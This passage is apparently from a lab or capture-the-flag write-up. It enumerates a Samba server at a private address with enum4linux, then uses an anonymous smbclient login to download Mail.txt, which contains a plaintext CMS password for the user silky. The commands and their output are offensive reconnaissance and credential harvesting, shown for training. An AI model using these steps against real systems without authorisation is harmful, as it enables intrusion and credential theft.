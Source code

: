 ### Samba Enumeration

Enumerating with enum4linux I found a system user and a shared folder named Notes.

```console
root@kali:~$ enum4linux -a 192.168.179.162
...
 ================================ 
|    Users on 192.168.179.162    |
 ================================ 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: silky    Name: Silky     Desc: 

user:[silky] rid:[0x3e8]

 ============================================ 
|    Share Enumeration on 192.168.179.162    |
 ============================================ 

        Sharename       Type      Comment 
        ---------       ----      ------- 
        print$          Disk      Printer Drivers
        Notes           Disk      My Notes
        IPC$            IPC       IPC Service (ubuntu server (Samba, Ubuntu))
```

An anonymous login to the shared folder Notes allowed me to find a Mail.txt file, so I downloaded it to the attacking machine.

```console
root@kali:~$ smbclient //192.168.179.162/Notes -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 29 08:52:09 2020
  ..                                  D        0  Thu Jul 30 14:32:11 2020
  Mail.txt                            N      244  Wed Jul 29 08:52:05 2020

                19992176 blocks of size 1024. 10688056 blocks available
                
smb: \> get Mail.txt
getting file \Mail.txt of size 244 as Mail.txt (2.9 KiloBytes/sec) (average 2.9 KiloBytes/sec)
```

This file contains a password for the silky user.

```console
root@kali:~$ cat Mail.txt 
Hi Silky
because of a current Breach we had to change all Passwords,
please note that it was a 0day, we don't know how he made it.

Your new CMS-password is now 51lky571k1, 
please investigate how he made it into our Admin Panel.

Cheers Boss.
```
